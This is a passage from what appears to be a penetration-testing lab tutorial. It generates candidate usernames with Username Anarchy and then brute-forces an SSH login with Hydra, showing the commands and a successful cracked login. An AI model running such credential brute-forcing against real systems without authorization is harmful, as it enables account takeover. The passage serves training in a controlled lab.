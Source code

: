 One such tool we can use is [Username Anarchy](https://github.com/urbanadventurer/username-anarchy), which we can clone from GitHub, as follows:

Personalized Wordlists

```shell-session
root@htb[/htb]$ git clone https://github.com/urbanadventurer/username-anarchy.git

Cloning into 'username-anarchy'...
remote: Enumerating objects: 386, done.
remote: Total 386 (delta 0), reused 0 (delta 0), pack-reused 386
Receiving objects: 100% (386/386), 16.76 MiB | 5.38 MiB/s, done.
Resolving deltas: 100% (127/127), done.
```

This tool has many use cases that we can take advantage of to create advanced lists of potential usernames. However, for our simple use case, we can simply run it and provide the first/last names as arguments, and forward the output into a file, as follows:

Code: bash

```bash
./username-anarchy Bill Gates > bill.txt
```

We should finally have our username and passwords wordlists ready and we could attack the SSH server.

## Service Authentication Brute Forcing

***

### SSH Attack

The command used to attack a login service is fairly straightforward. We simply have to provide the username/password wordlists, and add `service://SERVER_IP:PORT` at the end. As usual, we will add the `-u -f` flags. Finally, when we run the command for the first time, `hydra` will suggest that we add the `-t 4` flag for a max number of parallel attempts, as many `SSH` limit the number of parallel connections and drop other connections, resulting in many of our attempts being dropped. Our final command should be as follows:

Service Authentication Brute Forcing

```shell-session
root@htb[/htb]$ hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 157116 login tries (l:12/p:13093), ~39279 tries per task
[DATA] attacking ssh://178.35.49.134:22/
[STATUS] 77.00 tries/min, 77 tries in 00:01h, 157039 to do in 33:60h, 4 active
[PORT][ssh] host: 178.35.49.134   login: b.gates   password: ...SNIP...
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```
